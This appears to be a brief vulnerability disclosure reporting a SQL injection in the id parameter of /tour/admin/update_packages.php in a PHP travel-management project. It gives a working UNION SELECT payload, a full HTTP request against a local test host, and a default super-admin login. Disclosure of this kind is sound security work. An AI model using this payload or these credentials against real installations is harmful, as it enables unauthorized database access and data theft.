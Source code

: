 # Online Tours & Travels management system v1.0 by mayuri_k has SQL injection

BUG_Author: Autumn

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/14510/online-tours-travels-management-system-project-using-php-and-mysql.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /tour/admin/update_packages.php

Vulnerability location: /tour/admin/update_packages.php?id=, id

dbname = tour1

[+] Payload: /tour/admin/update_packages.php?id=1%27%20union%20select%201,database(),3,4--+ // Leak place ---> id

```sql
GET /tour/admin/update_packages.php?id=1%27%20union%20select%201,database(),3,4--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=g29omi7f91g3h7ud1uhq6rbmkv
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183013119-2cb906f3-4ece-4fdd-b5a1-ef904861534c.png)
